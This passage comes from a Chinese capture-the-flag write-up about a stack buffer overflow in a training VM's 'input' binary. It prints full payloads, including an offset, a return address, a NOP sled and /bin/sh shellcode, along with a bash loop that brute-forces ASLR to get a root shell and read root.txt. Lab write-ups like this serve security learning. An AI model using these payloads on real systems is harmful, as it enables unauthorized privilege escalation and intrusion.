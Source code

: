 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

这里可以看到eip就是0x42424242，我们修改下payload再执行一次，先查一下esp地址(写完发现漏张图，后补的图地址有偏差)

```
x/s $esp
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

run $(python2 -c 'print "A" * 171 + "\x30\xca\xff\xff" + "\x90" * 2000 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"')

```
`"A" * 171 //偏移量``"\x30\xca\xff\xff"//esp地址``"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"//32位sehllcode,/bin/sh`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

溢出成功，现在到靶机上操作，由于靶机上的ASLR是开启的，又没有root权限去关闭，可以写个循环去碰esp地址。

最终payload：

```
for a in {1..1000}; do echo -n $a; ./input $(python -c 'print "A" * 171 + "\x10\x10\x90\xbf" + "\x90" * 0x10000 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"');done
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

将payload直接复制到靶机终端里运行，看到出现#号代表提权成功，来找一下flag。

```
`cd /root``ls``cat root.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到root.txt，游戏结束。（二进制不是本人擅长的内容，好在这题不难但是也费很大劲才搞出来，本来不想写的但是做了一半时间又有点晚只能硬着头皮上了）

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**这篇文章到这里就结束了,喜欢打靶的小伙伴可以关注"伏波路上学安全"微信公众号,或扫描下面二维码关注,我会持续更新打靶文章,让我们一起在打靶中学习进步吧.**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)